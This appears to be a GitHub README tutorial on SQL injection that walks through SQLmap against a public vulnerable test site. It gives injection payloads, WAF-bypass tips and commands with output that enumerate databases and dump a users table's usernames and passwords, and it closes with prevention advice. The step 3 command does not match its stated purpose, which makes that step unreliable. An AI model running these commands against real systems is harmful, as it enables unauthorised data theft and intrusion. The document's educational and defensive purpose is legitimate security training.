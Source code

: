 # Automating SQL Injection with SQLmap: A Comprehensive Guide

![SQL Injection Logo](https://www.vaadata.com/blog/wp-content/uploads/2024/05/exploiting-sqli-with-sqlmap.png)

## What is SQL Injection?

SQL injection (SQLi) is a critical web security vulnerability that allows attackers to manipulate an application's database queries. By injecting malicious SQL code into input fields, attackers can access unauthorized data, such as user credentials or sensitive information, modify or delete database contents, or even compromise the underlying server. This vulnerability has been the cause of numerous high-profile data breaches, leading to significant reputational and financial damage.

### How SQL Injection Works
SQL injection occurs when user input is improperly sanitized and directly included in SQL queries. For instance, consider a web application querying a product database:

sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1


If an attacker inputs ' OR '1'='1 as the category, the query becomes:

sql
SELECT * FROM products WHERE category = '' OR '1'='1' AND released = 1


This returns all products since '1'='1' is always true, bypassing intended restrictions.

Common SQL injection types include:
- *Retrieving Hidden Data*: Modifying queries to access unauthorized data.
- *Subverting Application Logic*: Bypassing authentication (e.g., ' OR '1'='1' --).
- *UNION Attacks*: Extracting data from other tables using the UNION operator.
- *Blind SQL Injection*: Inferring data through boolean or time-based techniques without direct output.

To detect SQL injection, test inputs with single quotes ('), boolean conditions (e.g., 1=1), or time-delay payloads (e.g., SLEEP(5)).

## Introduction to SQLmap

SQLmap is an open-source penetration testing tool designed to automate the detection and exploitation of SQL injection vulnerabilities in web applications. It supports a wide range of database management systems (DBMS) and offers robust features for database enumeration, data extraction, and advanced exploitation.

### Key Features
- Automated detection and exploitation of SQL injection vulnerabilities.
- Enumeration of databases, tables, columns, and data.
- Support for multiple injection techniques (boolean-based blind, time-based blind, UNION query, etc.).
- Customizable detection levels and risk settings.
- Tampering scripts to bypass web application firewalls (WAFs).
- REST-JSON API for integration and automation.

### Installation
On Kali Linux (recommended for penetration testing), install SQLmap with:

bash
sudo apt install sqlmap


Alternatively, clone the repository from GitHub and run it with Python:

bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python sqlmap.py


For basic usage, use sqlmap -u <URL> to test a URL, with flags like --dbs to list databases or --dump to extract data.

*Note*: This guide uses the test site http://testphp.vulnweb.com for demonstration. Always obtain permission before testing systems, as unauthorized scanning is illegal.

## Step-by-Step Guide to Using SQLmap

This guide provides a structured approach to detecting and exploiting SQL injection vulnerabilities using SQLmap, based on a practical demonstration.

### Step 1: Running SQLmap on the Vulnerable Endpoint
Target a potentially vulnerable endpoint, such as:

bash
http://testphp.vulnweb.com/artists.php?artist=1


Run SQLmap to check for vulnerabilities:

bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --batch


- -u: Specifies the target URL.
- --batch: Automatically selects default options for non-interactive execution.

SQLmap probes the URL's parameters (e.g., artist) to identify injection points.

### Step 2: Detecting the Vulnerability
SQLmap tests various payloads and reports injectable parameters. Example output:

bash
[INFO] sqlmap found the following injection point(s) from stored session:
Parameter: artist (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: artist=1 AND 5105=5105


This confirms a boolean-based blind SQL injection in the artist parameter. The payload 1 AND 5105=5105 evaluates to true, verifying the injection point.

### Step 3: Enumerating Databases
List available databases:

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname,pass --dump --batch
```




Example output:

bash
[INFO] available databases:
[*] acuart
[*] information_schema


Focus on the application-specific database, acuart.

### Step 4: Listing Tables in a Database
Enumerate tables in the acuart database:

bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch


Example output:

bash
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+


The users table is a likely target for sensitive data.

### Step 5: Listing Columns in a Table
Retrieve columns from the users table:

bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch


Example output:

bash
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| name    | varchar(100) |
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+


Columns like uname (username) and pass (password) are of interest.

### Step 6: Dumping Data from a Table
Extract data from specific columns:

bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname,pass --dump --batch


Example output:

bash
Table: users
[1 entry]
+-------+------+
| uname | pass |
+-------+------+
| test  | test |
+-------+------+


This retrieves usernames and passwords from the users table.

### Advanced Tips
- Adjust detection intensity with --level (1-5) and --risk (1-3).
- Use --tamper scripts (e.g., --tamper=space2comment) to bypass WAFs.
- Enable --threads for faster execution on multi-core systems.
- Check SQLmap logs (~/.sqlmap/output/) for detailed exploitation details.
- Use --sql-shell for an interactive SQL prompt on vulnerable systems.

## Preventing SQL Injection
Securing applications against SQL injection is critical. Key prevention strategies include:

- *Prepared Statements and Parameterized Queries*: Use parameterized queries to separate user input from SQL code.
- *Input Validation and Sanitization*: Validate and escape all user inputs against expected formats.
- *Least Privilege Principle*: Restrict database accounts to minimal permissions.
- *Error Handling*: Suppress detailed error messages that expose database details.
- *Web Application Firewalls (WAFs)*: Deploy WAFs to filter malicious inputs.
- *Stored Procedures*: Use pre-compiled SQL statements to limit injection risks.
- *Regular Security Testing*: Integrate tools like SQLmap into development pipelines.

For detailed guidance, refer to the [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html).

## Conclusion
SQLmap is a powerful tool for identifying and exploiting SQL injection vulnerabilities, making it invaluable for ethical hackers and security professionals. However, the ultimate goal is to secure applications against such attacks. This guide demonstrates a responsible approach to learning SQLmap—use it ethically and only on authorized systems.

Star this repository and contribute improvements to support the community!

*Disclaimer*: This guide is for educational purposes only. Unauthorized testing is illegal and unethical. Always obtain explicit permission before testing any system.
